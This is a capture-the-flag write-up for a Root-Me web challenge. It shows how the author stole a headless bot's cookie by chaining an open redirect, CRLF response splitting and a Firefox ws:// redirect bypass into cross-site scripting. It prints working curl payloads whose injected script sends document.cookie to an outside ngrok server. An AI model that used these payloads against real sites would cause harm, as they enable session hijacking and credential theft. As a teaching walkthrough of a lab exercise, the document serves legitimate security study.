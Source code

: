 # Custom HTTP Server (day8)

<p align="justify">In this web challenge the goal was to attack a javascript website and retreive the flag. No informations were given about the way to process nor the location of the flag, but application source code was provided (attached to this repo). </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc" style="width:40%"></p>

<p align="justify">After a few read of the source code I spoted the snippet below giving me informations about the way I could have retreived the flag :</p>

````javascript
const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };
````

<p align="justify">Indeed the flag was actually javascript bot's cookie (playright) set on the local domain. As a matter of fact; the website offered a report method (in the file app.js : /api/report) in which it was possible to send an url to the bot, so that it could have checked it and as result being trapped. Hence to solve this challenge I had to find a way to exfiltrate the cookie through XSS attack.  The schema of the challenge had been the following one : </p>

- First, I had to find a way to steal my own cookie , craft a valid payload
- Then I had to adjust payload for firefox browser especially, because playright bot works over firefox
- Finally I had to submit the payload on the report api so that the bot could have been trapped and sent its cookies

<p align="justify">At first I thought I had to bypass filter applied to XSS API as shown in the code snippet below. But after a few tries I gave up because of the sanitizer which was too restrictive (the filter is availabe under sanitizer.js in the source code zip) :</p>

````javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});
````

<p align="justify">I finally spoted the redirect feature below, in which user input wasn't cleared nor processed; meaning it could have been exploited for injection and eventualy cross site scripting payload injection. Which looked interesting at this point : </p>

````javascript
router.get('/api/redirect', (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.badRequest();
  }
});
````

<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to inject the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload was ran on the target domain: 

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Nonetheless when I tested the payload on firefox, it only triggered a redirect loop leading to abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters to fetch my external server and to get around CORS restrictions: </p>

````javascript
fetch('http://7.tcp.eu.ngrok.io:18440/',
        {
                methode: 'POST',
                mode: 'no-cors',
                body: document.cookie
        }
)
````

Finally I came up with the final paylaod below :

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
After opening a listening port, I finally received the flag : 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !

